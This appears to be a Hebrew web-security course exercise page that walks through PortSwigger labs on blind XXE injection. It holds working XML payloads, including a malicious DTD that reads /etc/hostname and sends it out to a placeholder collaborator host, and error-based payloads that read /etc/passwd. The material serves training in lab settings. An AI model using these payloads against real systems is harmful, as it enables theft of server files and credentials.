

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/3 - הזרקות מתקדמות/3.7 - הזרקת XML מתקדמת/3.7 - הזרקת XML מתקדמת - תרגיל/index.html · generator: mkdocs

# הinjection XML מתקדמת - תרגיל

## תרגיל 1 - Blind XXE עם OOB

PortSwigger Lab: **Blind XXE with out-of-band interaction**

### משימות

1. מצאו נקודה באפליקציה שמקבלת XML
2. שלחו payload בסיסי של XXE - וודאו שאין פלט ישיר
3. הגדירו Burp Collaborator
4. שלחו payload עם OOB:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://YOUR-COLLABORATOR.oastify.com">
  %xxe;
]>
<stockCheck><productId>1</productId></stockCheck>
```

5. בדקו ב-Collaborator שהבקשה הגיעה

## תרגיל 2 - extraction נתונים OOB

PortSwigger Lab: **Blind XXE with out-of-band interaction via XML parameter entities**

### משימות

1. הכינו DTD זדוני בשרת שלכם:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-COLLABORATOR.oastify.com/?data=%file;'>">
%eval;
%exfil;
```

2. שלחו את ה-payload שטוען את ה-DTD:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://YOUR-SERVER/evil.dtd">
  %xxe;
]>
<stockCheck><productId>1</productId></stockCheck>
```

3. בדקו ב-Collaborator שקיבלתם את הנתונים
4. חלצו קבצים נוספים: `/etc/passwd`, קונפיגורציות

## תרגיל 3 - Error-based XXE

PortSwigger Lab: **Exploiting blind XXE to retrieve data via error messages**

### משימות

1. גלו שה-OOB הרגיל לא עובד (חומת אש)
2. הכינו DTD שמשתמש בשגיאות לextraction:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

3. בדקו שהנתונים מופיעים בהודעת השגיאה
4. חלצו את הקובץ הנדרש

## תרגיל 4 - XXE דרך SVG
